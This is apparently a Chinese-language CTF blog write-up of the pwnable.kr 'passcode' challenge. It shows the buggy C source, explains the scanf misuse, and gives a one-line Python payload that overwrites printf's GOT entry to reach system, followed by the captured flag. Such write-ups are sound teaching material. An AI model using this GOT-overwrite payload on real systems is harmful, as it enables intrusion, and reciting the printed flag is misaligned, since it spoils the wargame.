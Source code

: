 ```yaml
---
layout: post
title: "pwnable.kr passcode"
date: 2018-07-10 
tag: pwn Writeup pwnable.kr
---
```


用`ssh passcode@pwnable.kr -p2222 (pw:guest)`连上后看见有源码，代码如下：

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;
}
```

我们可以很明显的看见 login() 函数中 scanf() 写错了。`scp -P 2222 passcode@pwnable.kr:passcode /images/posts/pwnable.kr_passcode/` 把二进制文件down下来看了看发现 passcode1 就是 name[] 的最后4个字节。因此我们有了一次向任意地址写入4 bytes的机会。

![img_1](/images/posts/pwnable.kr_passcode/img_1.png)
![img_2](/images/posts/pwnable.kr_passcode/img_2.png)

用 checksec 查看一下保护。

![img_3](/images/posts/pwnable.kr_passcode/img_3.jpg)

现在我的想法是通过修改GOT表来控制EIP，GOT表的相关知识可以看看我写的[GOT与PLT](https://demonsin.github.io/2018/06/GOT%E4%B8%8EPLT/)。

我们将目标代码 `system("/bin/cat flag");` 的地址覆盖掉GOT表中 printf() 的地址。这样接下来调用 printf() 时就会跳到目标代码去了。

用 `readelf -r passcode` 看见 printf() 在 GOT表中的地址为 0x0804a000。在 IDA 中看到目标地址为 0x080485E3，即十进制的 134514147。

![img_4](/images/posts/pwnable.kr_passcode/img_4.jpg)
![img_5](/images/posts/pwnable.kr_passcode/img_5.png)

exp: `python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | /images/posts/pwnable.kr_passcode/passcode`

![img_6](/images/posts/pwnable.kr_passcode/img_6.png)

flag: Sorry mom.. I got confused about scanf usage :(